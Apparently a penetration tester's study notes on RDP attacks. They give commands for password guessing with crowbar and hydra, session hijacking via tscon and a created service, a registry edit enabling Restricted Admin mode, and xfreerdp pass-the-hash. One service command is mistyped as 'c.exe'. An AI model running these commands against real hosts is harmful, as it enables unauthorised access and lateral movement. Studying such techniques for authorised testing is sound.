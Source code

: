 # #Misconfigurations 

### Password guessing 
#### Using [crowbar](https://github.com/galkan/crowbar)
```shell
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
#### #Hydra 
```shell
 hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Session Hijacking 

Need to have #SYSTEM privilege and used [tscon.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon)

```cmd
 tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

Local #admin privileges 
```cmd
query user
```

```cmd
c.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"
```

```cmd
net start sessionhijack
```

## RDP Pass-the-Hash (PtH)

Caveats 
- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```shell
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

## Latest Vulns
[Blue Keep CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)
